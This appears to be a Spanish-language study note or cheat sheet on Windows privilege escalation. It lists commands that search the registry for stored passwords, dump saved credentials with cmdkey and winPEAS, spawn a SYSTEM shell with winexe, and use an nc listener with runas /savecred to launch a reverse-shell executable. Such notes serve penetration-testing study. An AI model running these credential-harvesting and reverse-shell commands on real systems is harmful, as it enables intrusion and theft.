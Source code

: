 ## Kernel Exploits
- Los exploits de kernel tambien pueden ser usados para escalar privilegios.

```
> systeminfo // El output de este comando hay que usarlo depues con windows exploit suggester para veer si hay exploits

```
## Password
- Algunos features de windows almacena nuestras contraseñas de forma inseguros

### Registry

 - Los siguientes comandos busca en los registros (REG) valores que coincidan con la palabra clave (Password), esto normalmente nos devuelve una lista de resultados. Mirar con winPEASS Autologon credendials y Putty session
```
> reg query HKLM /f password /t REG_SZ /s //Busca localmente

> reg query KKCU /f password /t REG_SZ /s //Busca del usuario

> winPEASS quiet filesinfo usersinfo

```

> Una vez que tengamos credenciales válidas podemos usar herramientas como winexe para spawnear una cmd.exe
 ```
 
 > winexe -U 'admin%password' --system //10.10.10.X cmd.exe
 
 ```
 
 ### Saved Creds
 
- Windows tiene un commando de runas por lo que permite a otros usuario correr comandos con privilegios de otros. Windows tiene una opción que permite al usuario guardar contraseñas

```
> winPEASS quiet cmd windowscreds

> cmdkey /list

```

- Con las credenciales válidas podemos usar el **RUNAS**

```
> rlwrap nc -lvnp 443

> runas /savecred /user:admin C:\PrivEsc\reverse.exe

```
